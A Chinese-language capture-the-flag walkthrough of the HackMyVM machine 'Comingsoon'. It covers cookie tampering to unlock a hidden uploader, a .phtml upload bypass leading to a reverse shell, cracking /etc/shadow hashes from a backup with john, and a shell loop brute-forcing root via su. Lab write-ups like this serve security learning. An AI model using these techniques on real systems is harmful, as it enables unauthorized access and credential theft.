 # Comingsoon

2025.01.02 https://hackmyvm.eu/machines/machine.php?vm=Comingsoon

## Ip

192.168.5.21

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

先访问 80 web，首页没什么内容，html 源码也没什么内容。gobuster 进行目录扫描，发现http://192.168.5.21/notes.txt：

```
Dave,

Last few jobs to do...

Set ssh to use keys only (passphrase same as the password)

Just need to sort the images out:
resize and scp them or using the built-in image uploader.

Test the backups and delete anything not needed.

Apply an https certificate.

Cheers,

Webdev
```

显示了 ssh 的密钥和登陆密码一样，但是目前没有私钥文件。发现两个用户名：dave 和 Webdev，并提到了 image uploader。

查看页面的请求，发现 cookie 中有 Cookie: RW5hYmxlVXBsb2FkZXIK=ZmFsc2UK 将其修改成 true, RW5hYmxlVXBsb2FkZXIK=dHJ1ZQ== 在刷新页面，这时出现了 upload 连接：

```
<!-- Upload images link if EnableUploader set -->
<a href='5df03f95b4ff4f4b5dabe53a5a1e15d7.php' class='btn btn-border'>Upload</a>
```

访问 http://192.168.5.21/5df03f95b4ff4f4b5dabe53a5a1e15d7.php 是个文件上传页面，尝试上传 php 文件，但是有过滤，可能是个黑名单，尝试绕过。

修改 php 后缀名为 phtml，就可以上传了，上传后的文件存在 assets 文件夹中，http://192.168.5.21/assets/img/8888.phtml ，kali 上建立监听，触发反弹，得到了反弹的 shell。

通过枚举，发现有一个备份文件 /var/backups/backup.tar.gz 并且在 5 分钟之内修改过，可能是计划任务定时执行的。 具有读取权限将其解压，得到了 /etc/shadow：

```
root:$y$j9T$/E0VUDL7uS9RsrvwmGcOH0$LEB/7ERUX9bkm646n3v3RJBxttSVWmTBvs2tUjKe9I6:18976:0:99999:7:::
scpuser:$y$j9T$rVt3bxjp6uYKKYJbYU2Zq0$Ysn02LrCwTUB7iQdRiROO7/WQi8JSGtwLZllR54iX0.:18976:0:99999:7:::
```

使用 john 进行破解，得到密码 tigger :

```
john hash -format=crypt --wordlist=/usr/share/wordlists/rockyou.txt
```

su 切换到 scpuser 用户，得到 user flag：

```
scpuser@comingsoon:~$ cat user.txt
HMV{user:comingsoon.hmv:58842fc1a7}
```

查看 home 目录下的 .oldpasswords 文件，但是尝试切换到 root 都不对，发现密码字典是电影名，经过搜索，找到其他 wp 中的电影名字典：https://raw.githubusercontent.com/therealtomkraz/ctfscripts/main/top_100_animated_movies.txt

将其下载到目标机器上，进行爆破 root 账号：

```
for i in $(cat pass.txt); do echo $i; echo $i| su root -c 'ls /root';done
```

发现密码为: ToyStory3 切换后，得到了 root flag：

```
root@comingsoon:~# cat root.txt
HMV{root:comingsoon.hmv:2339dc81ca}
```
